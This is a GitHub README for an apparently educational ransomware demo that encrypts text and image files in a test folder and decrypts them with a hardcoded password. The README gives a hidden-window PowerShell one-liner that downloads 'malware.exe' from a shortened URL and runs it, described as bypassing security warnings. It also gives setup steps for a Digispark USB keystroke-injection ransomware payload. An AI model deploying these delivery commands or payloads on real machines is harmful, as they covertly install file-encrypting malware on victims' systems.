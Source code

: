**EDUCATIONAL USE ONLY, USE AT YOUR OWN RISK!** \
**IT IS ALWAYS RECOMMENDED TO TEST THESE KINDS OF PROGRAMS INSIDE A VIRTUAL MACHINE WITH NO SENSITIVE INFORMATION INCASE OF SOMETHING GOES WRONG**

**Version 1.0**

![bio](https://github.com/therealhalonen/PhishSticks/assets/112076418/8e7f742d-bdc4-41d0-9aaa-8a6493df29f7)

## What it is 

Simple application made with python and tkinter to demonstrate how an application can encrypt and decrypt your files with extensions {'.txt', '.jpg', '.jpeg', '.png'} in the directory called TestDirz338

If combined with the PowerShell script below, the application gets downloaded and executed in path `{USER}\TestDirz338\` 

Right now the application decrypts all {'.txt', '.jpg', '.jpeg', '.png'} files when user gives up the right password (lihapulla).

![270753154-8fb9e882-b990-48cd-add6-309dd09af3be](https://github.com/therealhalonen/PhishSticks/assets/112076418/bee3e9ec-499b-4a0e-af8b-fc5e2c04b4ea)

## How to use

Download and run the script or .exe file inside a safe folder with no important files (incase something goes wrong) to launch the program and enjoy, for example:

```
$ mkdir TestDirz338
$ cd TestDirz338
$ ./encrypt.py
```
OR

Make a folder called TestDirz338 in the path C:/Users/{USER}/

![2023-12-05_18-59](https://github.com/therealhalonen/PhishSticks/assets/112076418/6682c7df-debb-40ce-bba0-aea449f228f4)


Bypass security warnings and download & execute the file instantly in TestDirz338 folder by typing the following code into Run (Win+R) on **Windows**:
```
powershell -w hidden -c "(New-Object System.Net.WebClient).DownloadFile('https://tinyurl.com/5e8yp8mf', \"$env:UserProfile\TestDirz338\malware.exe\");Start-Process \"$env:UserProfile\TestDirz338\malware.exe\" -WorkingDir \"$env:UserProfile\TestDirz338\""
```
If you don't have a folder called TestDirz338 and you execute the code above, nothing happens. Also trying to run the executable anywhere else raises an error:

![2023-12-05_18-56](https://github.com/therealhalonen/PhishSticks/assets/112076418/85b533aa-ec2b-40af-9d5d-66121cf92b4f)

How it works: https://www.youtube.com/watch?v=glqK_-qdDkw

Executable version works the same without needing different python libraries.

---

### To set up Digispark payload:
- [Set up Digispark](https://github.com/therealhalonen/PhishSticks/blob/master/notes/ollikainen/notes.md#digispark)
- Add correct Digikeyboard library to match your systems keyboard layout for example [DigiKeyboardFi.h](https://github.com/therealhalonen/DigiKeyboardFi/blob/master/DigiKeyboardFi.h) for Finnish keyboards (made by [therealhalonen](https://github.com/therealhalonen))
- Path of the file for Windows: C:/Users/username/Documents/Arduino/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- Path of the file for Linux: ~/.arduino15/packages/digistump/hardware/avr/1.6.7/libraries/DigisparkKeyboard/DigiKeyboardFi.h
- compile and upload [digispark_ransomware.ino](https://github.com/therealhalonen/PhishSticks/blob/master/digispark/digispark_ransomware/digispark_ransomware.ino) to your digispark
- Plug the Digispark in a computers USB slot and enjoy
  
![2023-10-31_12-24](https://github.com/therealhalonen/PhishSticks/assets/112076418/490686db-b5c4-4c00-9f7f-bc3006bd742b)

Watch the video to see it in action: https://www.youtube.com/watch?v=Bi2QOMSHeKI

